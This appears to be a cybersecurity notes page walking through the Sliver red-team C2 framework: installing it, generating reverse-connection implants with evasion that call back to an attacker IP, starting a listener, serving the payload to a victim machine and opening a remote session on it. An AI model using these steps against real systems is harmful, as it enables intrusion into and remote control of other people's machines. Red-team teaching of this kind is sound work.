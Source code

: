 # About
[Sliver](https://github.com/BishopFox/sliver) is an open source projected created and maintained by [BishopFox](https://www.bishopfox.com/) as an open source multi-platform adversary emulation and red team tool. Sliver facilitates the generations of reverse connection payloads as EXE, DLL, or Shellcode.
## Links
[Github](https://github.com/BishopFox/sliver)
[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/Getting-Started)
# Installing
It has binaries for Windows, Linux, MacOS allowing you to deploy Sliver C2 infrastructure on any system. - This can be downloaded directly from the [Sliver Repo](https://github.com/BishopFox/sliver/releases) using wget or directly.
- Pre-reqs
```
sudo apt install -y mingw-w64 binutils-mingw-w64 g++-mingw-w64
```
- Install on system
```
curl https://sliver.sh/install | sudo bash
```
- Run it
```
sliver
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FZdHaNklKw63ti1DTNW5W%252Fimage.png%3Falt%3Dmedia%26token%3Dd9d14053-e6c9-4263-ae9c-4406a79b75ae&width=768&dpr=4&quality=100&sign=85a377d9&sv=2)

## Standalone release
```
wget https://github.com/BishopFox/sliver/releases/download/v1.4.14/sliver-server_linux.zip
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FFk90cfZLRP51UCHjyHoE%252Fimage.png%3Falt%3Dmedia%26token%3D44541d48-d69b-4b27-b767-cec233abcf77&width=768&dpr=4&quality=100&sign=f1379caf&sv=2)

- Unzip the file
```
unzip sliver-server_linux.zip
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FdanhnhcE9fI0F1GieFik%252Fimage.png%3Falt%3Dmedia%26token%3Dac414235-50ba-4d95-915c-c1a5f719dbbc&width=768&dpr=4&quality=100&sign=5309f22e&sv=2)

- Make it executable
```
chmod +x sliver-server
```

- Run it
```
sudo ./sliver-server
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FlgQlsMu6wn4N0ueBqjEw%252Fimage.png%3Falt%3Dmedia%26token%3Db380ba20-6aa7-4954-9663-2c82339eb853&width=768&dpr=4&quality=100&sign=a3d7cc23&sv=2)

# Usage
## Making a payload
to generate at payload you must know your IP address(external if this is hosted externally). This will generate a randomly named executable file file that can be delivered to targets in a variety of ways. The flags `-m` and `-e` flags used above represent Natural-TLS connection to use to connect back on and evasion respectively. The IP address entered is the IP address of your Sliver server.
```
generate -m (attacker ip) -e
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FQwrdKzXsbqxnScqz8UMT%252Fimage.png%3Falt%3Dmedia%26token%3Df5864612-9802-4bac-a894-06affc4ace4f&width=768&dpr=4&quality=100&sign=544ca7d4&sv=2)

The executable file will be in the folder where sliver was run.
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FQGv7GbqeMMhVTwgmOJRT%252Fimage.png%3Falt%3Dmedia%26token%3Ddff24fe0-05ca-4c1d-8729-df1df8791406&width=768&dpr=4&quality=100&sign=5dac6b08&sv=2)
## Making .dll payload
```
generate —mtls (attacker ip) —format shared —skip-symbols
```
## Starting The MTLS Listener
The listener must be started before the delivery and exectuion of the payload on a target system. This listener will display all active connectsions from target systems to your C2 server.
```
mtls
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FqaLWCr24EJv3rLEbmb5J%252Fimage.png%3Falt%3Dmedia%26token%3Def45954b-a96a-49d4-adb9-c36eff406eca&width=768&dpr=4&quality=100&sign=f50b18cb&sv=2)
## Exploit

Get the executable onto the victim. I'll do this via a quick python webserver.
```
python3 -m http.server 8008
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FXMkOtRtG8q0xEYWvgHxe%252Fimage.png%3Falt%3Dmedia%26token%3Dc9074eaa-1a21-4b15-b533-fcbcd1c3159d&width=768&dpr=4&quality=100&sign=afd0a604&sv=2)

When the server is being accessed and a file is being downloaded
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FqWk8ml8gmA03S9F8V2OH%252Fimage.png%3Falt%3Dmedia%26token%3D299234f4-2e5d-4e85-8e64-b7ecb72c014c&width=768&dpr=4&quality=100&sign=3c06dbc6&sv=2)

On the victim machine go to the webserver and click on the file you want to download
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FbOs5WIKRykzNB2U93FA2%252Fimage.png%3Falt%3Dmedia%26token%3Ddd607ab9-2fce-4d9e-9d16-ce7dc94f7ce0&width=768&dpr=4&quality=100&sign=f016f75b&sv=2)
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FfZ5b3V8i0q0Dgt4BJyx4%252Fimage.png%3Falt%3Dmedia%26token%3Dd8b05566-cbc4-4bb8-8b23-d1c8bfbbba4c&width=768&dpr=4&quality=100&sign=aeaa7b2f&sv=2)

Once it is executed, we should see the connection from the sliver terminal.
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252F10rjyyYDW3zfwhhOQewX%252Fimage.png%3Falt%3Dmedia%26token%3D6b36b1dc-aafe-4342-8db8-90fdd21e98d6&width=768&dpr=4&quality=100&sign=ad999740&sv=2)

We can also check on active sessions or alive sessions with `sessions`
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FaQ3OKsMEo3CQYf9ZKpmH%252Fimage.png%3Falt%3Dmedia%26token%3Dc12c9cd8-9184-4caf-bddd-108b190418bb&width=768&dpr=4&quality=100&sign=6ea226c9&sv=2)

Connect to the session
```
sessions -i (session id)
```
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FctbNOo1zP3r61UUkerim%252Fimage.png%3Falt%3Dmedia%26token%3D260b16c3-8755-4466-898a-b48e116bf5a2&width=768&dpr=4&quality=100&sign=dda9838f&sv=2)

Run whatever commands you may need/want:
![](https://cybersec.th4ntis.com/~gitbook/image?url=https%3A%2F%2F667808901-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FTdW22AGCceN8oUXfdlKI%252Fuploads%252FLGi10lWw2zcjl4wDJVPL%252Fimage.png%3Falt%3Dmedia%26token%3D06158d0f-dbbb-4232-b4f5-f7df98ec3d07&width=768&dpr=4&quality=100&sign=423764e1&sv=2)